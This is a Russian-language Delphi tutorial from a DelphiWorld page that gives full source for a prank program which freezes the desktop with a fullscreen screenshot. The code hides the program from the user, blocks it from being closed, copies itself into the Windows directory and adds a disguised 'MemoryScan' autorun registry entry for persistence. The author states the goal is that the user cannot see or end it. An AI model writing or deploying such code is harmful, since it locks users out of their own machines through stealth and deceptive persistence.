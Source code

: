 ```yaml
---
Title: Безжизненный рабочий стол
Date: 01.01.2007
---
```



Безжизненный рабочий стол
=========================

::: {.date}
01.01.2007
:::

Алгоритм следующий: нужно на форму вынести компонент класса TImage
скопировать в него рабочий стол и растянуть во весь экран. Делаем это по
созданию окна \[событие OnCreate()\]:

    procedure TForm1.FormCreate(Sender: TObject);
    var
      ScreenDC: HDC;
      canvas:Tcanvas;
    begin
      ScreenDC:=GetDC(0);
      Canvas:=TCanvas.Create();
      canvas.Handle:=ScreenDC;
      Width:=Screen.Width;
      Height:=Screen.Height;
      Image1.Canvas.CopyRect(Rect(0,0,Image1.Width,Image1.Height),
      canvas,Rect(0,0,Screen.Width,Screen.Height));
      Releasedc(0,ScreenDC);
      Canvas.Free;
    end;

Затем нужно свойство формы BorderStyle установить в значение bsNone,
чтобы не было видно боковины окна, а свойство FormStyle - в fsStayOnTop,
дабы наше окно всегда было всех других окон!!! Свойство Align компонента
Image1- в значение alClient, чтобы картинка занимала всё свободное.
место

Далее позаботимся о том, чтобы наше приложение не было видно и чтобы
пользователь не мог завершить его :-))

Событие по созданию окна в конечном итоге должно выглядеть так:

    procedure TForm1.FormCreate(Sender: TObject);
    var
      ScreenDC: HDC;
      canvas: Tcanvas;
      h: TRegistry;
    begin
      ScreenDC:=GetDC(0);
      Canvas:=TCanvas.Create();
      canvas.Handle:=ScreenDC;
      Width:=Screen.Width;
      Height:=Screen.Height;
      Image1.Canvas.CopyRect(Rect(0,0,Image1.Width,Image1.Height),
      canvas,Rect(0,0,Screen.Width,Screen.Height));
      Releasedc(0,ScreenDC);
      Canvas.Free;
     
      if not(csDesigning in ComponentState) then
      RegisterServiceProcess(GetCurrentProcessID,1);
     
      WinDirP := StrAlloc(MAX_PATH);
      Res := GetWindowsDirectory(WinDirP, MAX_PATH);
      if Res > 0 then WinDir := StrPas(WinDirP);
     
      if FileExists(WinDir+'\OurProgram.com')=false then
      CopyFile(PChar(Application.ExeName),PChar(WinDir+'\OurProgram.com'),false);
     
      h:=TRegistry.Create;
      h.RootKey:=HKEY_LOCAL_MACHINE;
      h.OpenKey('\Software\Microsoft\Windows\CurrentVersion\Run',true);
      h.WriteString('MemoryScan',WinDir+'\OurProgram.com');
      h.CloseKey;
      h.Free;
    end;

На событие OnCloseQuery() формы напишем:

CanClose:=false;

На событие OnActivate():

ShowWindow(Application.Handle,sw\_Hide);

В области public объявим несколько переменных:

    public
      { Public declarations }
      Windir: string;
      WindirP: PChar;
      Res: Cardinal;

А в uses подключим модуль Registry:

    uses
      Registry;

<https://delphiworld.narod.ru/>

DelphiWorld 6.0
